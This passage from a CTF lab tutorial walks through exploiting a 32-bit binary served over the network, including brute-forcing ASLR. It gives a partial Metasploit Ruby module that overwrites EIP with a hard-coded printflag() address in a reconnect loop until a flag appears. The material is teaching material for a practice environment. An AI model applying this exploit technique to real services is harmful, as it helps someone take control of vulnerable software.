 ==action: Fill in the placeholders and run your exploit==.

Once you confirm that the dummy flag (which we created earlier in ~/flag) was printed.

==VM: On your Desktop Debian Linux VM (victim service)==

> Action: Complete the following steps:

> - Stop the ncat process
> - Change to the directory for challenge 1
> - Host the challenge binary over the network

==VM: On the Kali Linux VM (attacker/exploit development)==

> Flag: Rerun your exploit to capture the flag!

## CTF Challenge 2 - Bypassing ASLR with a Brute-Force Attack {#ctf-challenge-2-bypassing-aslr-with-a-brute-force-attack}

==action: Run the 2nd challenge binary and inspect the print output==. You will notice that this time we no longer have the information leak.

As noted earlier, 32-bit binaries have a small search space. Only some of the bytes are randomised. This limited randomisation can brute force this easily in a short time as we have access to the program + can restart it at will.

As we can no longer find the exact offset, we can instead just use a hard-coded known address of printflag and run it many times.

In order to make it easier to catch when our brute-force succeeds, we can create a conditional check that exits metasploit if it succeeds.

> Action: Complete the following steps:

 - Create a new metasploit exploit as in Challenge 1
 - Find the offset for EIP overwrite using a debugger and pattern create
 - Whilst in the debugger, inspect memory and look for the address that printflag() gets loaded at.
   - Make note of this as: ==edit:Printflag-Address==
   - Ensure you convert your ==edit:Printflag-Address== to a little-endian hex byte string (e.g. "\xFF\xFF\xFF\xFF" rather than "0xFFFFFFFF")

==action: Update the exploit section to add a flag check function that exits when a flag is found and an infinite loop which attempts to set EIP to a known printflag() address:==

```ruby
def flag_check(str)
  if (str != nil) && (str.is_a? String) && (str.include? "flag{")
    exit(1)
  end
end

def exploit
  puts "A TCP based Metasploit module"
  
  offset = "==edit:EIP-Offset-Value=="
  padding = "A" * offset
  eip = "==edit:Printflag-Address-as-Hex-Bytes==" # a known printflag address e.g. "\xFF\xFF\xFF\xFF"
  bad = padding + eip
  
  while true
    connect
    banner = sock.get_once.to_s.strip
    print_status "Banner: #{banner}"
    sock.put bad + "\n\n"
    buf = sock.timed_read(500)
    puts "received #{buf}"
    flag_check(buf)
```